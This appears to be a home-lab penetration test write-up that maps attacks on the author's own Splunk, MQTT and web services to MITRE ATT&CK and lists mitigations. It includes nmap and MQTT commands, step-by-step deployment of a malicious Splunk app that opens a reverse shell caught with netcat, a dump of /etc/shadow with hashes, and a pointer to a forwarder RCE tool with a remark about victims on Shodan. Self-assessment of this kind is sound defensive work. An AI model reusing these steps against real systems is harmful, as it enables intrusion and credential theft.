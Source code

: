 # MITTRE ATTACK analysis

# Iteration 1
This first iteration is based on the status where there were some exposed services.

| Tactics	| Techniques | Sub-tech	| Attack details	| Results	| Mitigations	| Detection	| Issues | Future actions |
|---|---|---|---|---|---|---|---|---|
|Reconnaissance TA0043	| Active Scanning	T1595	| Scanning IP Blocks 0.001	| connected via a mobile phone to get an externl IP ping home.pires.xyz results the 2.80.44.128 sudo nmap -sV | IP is 2.80.44.128 sudo nmap -sV home.rpires.xyz DNS record for 2.80.44.128: bl19-44-128.dsl.telepac.pt PORT     STATE  SERVICE  VERSION 80/tcp   open   http     lighttpd 1.4.69  113/tcp  closed ident 443/tcp  closed https  1883/tcp open mqtt 8000/tcp open   ssl/http Splunkd httpd |	M1056        Pre-compromise  detect and block uncommon data flows| My temporary IP is 87.196.80.59, which can be found at a webservice such as https://whatismyipaddress.com/. Or via cli with: dig +short myip.opendns.com @resolver1.opendns.com 87.196.80.59  There are 2 alerts generated, but the scan is not detected.|	No detection of uncommon data flows. | Create rules to indentify and block port scans.|
|Reconnaissance TA0043	| Active Scanning T1595	| Vulnerability Scanning 0.002	| splunk: https://book.hacktricks.xyz/network-services-pentesting/8089-splunkd Shodan does not find this server. mqtt: : mosquitto_sub -t ""#"" -h home.rpires.xyz 91 13 38.50| Above scan indentifies 3 open ports: 80, 1883 and 8000. Some analysis around the web raises some paths for an attack: - 80/lighttpd 1.4.69, no vulnerabilities found https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=lighttpd - 1883/mqtt, no vulnerabilities found. However a quick test confirms that mqtt is not secured. https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto - 8000/splunk: possibly unhautenticated, confirmed with accessing via a browser to https://home.rpires.xyz:8000/en-US/app/launcher/home. Authentication GUI is restricted to paid licenses. https://book.hacktricks.xyz/network-services-pentesting/8089-splunkd | M1042        Disable or Remove Feature or Program M1056        Pre-compromise activate authentication on splunk activate authentiction and encryption in mqtt service |	DS0029        Network Traffic not detected |	mqtt data is not encrypted neither the data sources are vetted, hence an adversary can listen and inject data. Splunk server may be compromised by a malicious actor by analyzing the logs and installing apps. One specific app may provide reverse shell | enable authentication on splunk enable authentiction and encryption in mqtt service |
|Reconnaissance TA0043	|Active Scanning T1595	|Wordlist Scanning 0.003	|dirbuster and zap scanning	|no major issues raised	|detect and block uncommon data flows such as scans or crawlers M1042        Disable or Remove Feature or Program M1056        Pre-compromise| DS0029        Network Traffic not detected |	none |updated ssh password and pihole password which were simple old passwords, collected in past breaches, confirmed in https://haveibeenpwned.com/|
|Initial Access TA0001	|Exploit Public-Facing Application	|n/a	|userless login to splunk server, then upload a malicious app as described in https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto	|root access to the splunk server machine	|The Spluk server can be protected by updating to the licensed version and thus: M1026        Privileged Account Management M1051        Update Software As last resort, put it in a DMZ: M1030        Network Segmentation Other mitigation is to use a reverse proxy: M1050        Exploit Protection |DS0015        Application Log, not detected DS0029        Network Traffic, not detected| root access to the splunk server machine	|track splunk application log, create reverse proxy access, consider licensing splunk, consider other FOSS tool|

After this initial access, the whole network is at stake, as the adversaty could:
* Persistance TA0003/T1098	Account Manipulation, create a new ssh account
* Lateral Movement TA0008/, all local machines and services could be compromised
  
## Attack steps and demo
* Guide: https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto
* Code: https://github.com/0xjpuff/reverse_shell_splunk
Step 1: git clone https://github.com/0xjpuff/reverse_shell_splunk
Step 2: edit the attacker IP (own IP) and specicy a new port
Step 3: tar and then rename to be packaged as a splunk app
Step 4: deploy in the target splunk, and then reboot

![pic](splunk_install_app.png)

Step 5: listen in your computer with:  
sudo nc -nlvp "2224"  
[sudo] password for rpires:   
Listening on 0.0.0.0 2224  
Connection received on 192.168.1.65 57714  
┌──(root💀kali)-[/]  
└─# cat /etc/shadow  
cat /etc/shadow  
root:!:18764:0:99999:7:::  
....  
user:$y$j9T$6Yi8mmJLaFPUnsIb/EUE31$9iJbm1a7TR/8SPry4ilRUqf5dQqcw1mDJlbdjRSGwsC:18764:0:99999:7:::  
splunk:!:19615:0:99999:7:::  
splunkfwd:!:19711:0:99999:7:::  

## Other attack
You can do RCE using the forwarder.
Exploit Overview: An exploit targeting the Splunk Universal Forwarder Agent (UF) allows attackers with the agent password to execute arbitrary code on systems running the agent, potentially compromising an entire network.  
Explained here https://book.hacktricks.xyz/linux-hardening/privilege-escalation/splunk-lpe-and-persistence and code here https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
Haven't tried this yet, however there are may potential victims available in Shodam.

## Mitigations done
### Improved homepage
The homepage was outdated following a previous crash of raspberryPi.
Check it out at http://home.rpires.xyz

### Hide splunk behind a reverse proxy
...  
Try it at https://home.rpires.xyz:8000

### Monitored splunk log
...


## Future mitigations
* Replace Splunk with a FOSS.
* move the webpage to https/443
* add authentication and encryption to MQTT. Need to assess if the ESPs can support

  
# **Iteration 2**
This iteration is based on the status where the splunk server is protected with a reverse proxy and further detections were added to Splunk.
